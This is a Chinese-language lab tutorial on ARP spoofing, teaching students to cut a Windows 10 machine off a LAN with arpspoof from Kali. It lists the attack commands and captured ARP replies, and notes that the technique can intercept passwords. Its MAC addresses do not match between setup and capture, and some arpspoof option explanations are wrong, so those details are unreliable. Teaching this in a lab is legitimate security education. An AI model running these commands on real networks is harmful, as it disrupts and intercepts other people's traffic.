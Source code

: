 # ARP断网攻击

## 1.课前准备

kali 作为ARP攻击机，192.168.70.3  MAC地址：00:0c:29:5f:7e:d4

win10 作为被攻击方，192.168.70.130   MAC地址：00:0c:29:8e:da:0f 

网关（路由器），192.168.70.2    MAC地址：00:50:56:f3:07:7c

需要注意的时，两台主机需要在同一个局域网，并且网络通畅。

```
ping www.mashibing.com
```

计算上网的过程示意图：

![计算机上网示意图](https://img.gyxnb.top/img/计算机上网示意图.png)

## 2.arp断网攻击原理

他的原理是：向目标主机不断的发送**ARP报文**，然后将其报文中的**网关Mac地址**设置成为**攻击机的主机MAC地址**，
然后目标主机想要访问网络发送数据包时，都会发送到攻击机，然后攻击机只需要**做一个丢弃数据包的**
**命令**，就可以断掉目标主机的网络了。

## 3.arpspoof介绍:

arpspoof [spuːf]  是一个好用的ARP欺骗工具，攻击者通**过毒化受害者ARP缓存**，将网关MAC替换为攻击者MAC，然后攻击者可截获受害者发送和收到的数据包，从而获取受害者账户、密码等相关敏感信息。Kali linux中自带了该工具。

命令使用讲解

```
arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
-i：指定网卡
-c:攻击机的IP
-t 目标机器的IP
-r：网关IP
```

## 4.具体攻击步骤：

**1.首先确保两台机器在同一局域网络下，并且可以互相通讯。**

​	1.1查看kali的ip：

```
ip a
```

​	1.2 查看windows的ip：

```
ipconfig /all
```

​	1.3 windows ping kali:

```
ping 192.168.70.3
```

​	1.4 win10 查看arp表，记录网关的信息

```
arp -a |findstr 192.168.70.2
```

**2.kali进行断网攻击**

```
arpspoof -i eth0 -r 192.168.70.2 -t 192.168.70.130
-i:指定网卡
-r:指定网关ip
-t:指定靶机ip
```

**3.win10 查看网络连接 和 kali 的网络链接**

```
ping www.mashibing.com
```

**4.win10查看此时的arp表**

```
arp -a 
或者
arp -a |findstr 192.168.70.2
```

**5.结束断网攻击**

```
ctrl+C
```

**6.win10重新查看网络状态**

```
ping www.mashibing.com
```

**7.win10重新查看arp表**

```
arp -a |findstr 192.168.70.2
```

## 5.ARP断网攻击原理深入分析

**1.ARP攻击断网的过程 **

```
0:c:29:fc:66:46 1c:69:7a:a4:cf:92 0806 42: arp reply 192.168.70.2 is-at 0:c:29:fc:66:46
0:c:29:fc:66:46 e4:3a:6e:35:98:0 0806 42: arp reply 192.168.70.130 is-at 0:c:29:fc:66:46
ARP攻击机器 不停的在告诉 192.168.70.2（网关）  192.168.70.130 的mac地址是 00:0c:29:fc:66:46
ARP攻击机器 不停的在告诉 192.168.70.130（靶机） 192.168.70.2 的mac地址是 00:0c:29:fc:66:46

Ctrl+C停止攻击后
0:c:29:fc:66:46 1c:69:7a:a4:cf:92 0806 42: arp reply 192.168.70.2 is-at e4:3a:6e:35:98:0
0:c:29:fc:66:46 e4:3a:6e:35:98:0 0806 42: arp reply 192.168.70.130 is-at 1c:69:7a:a4:cf:92
ARP攻击机器 重新告诉 192.168.70.130（靶机） 192.168.70.2 的mac地址是 e4:3a:6e:35:98:0
ARP攻击机器 重新告诉 192.168.70.2（网关）  192.168.70.130 的mac地址是 1c:69:7a:a4:cf:92
```

**2.ARP断网原理图：**

![断网攻击原理图](https://img.gyxnb.top/img/断网攻击原理图.png)

## 6.课堂小结

请看思维导图：ARP断网攻击课程总结.xmind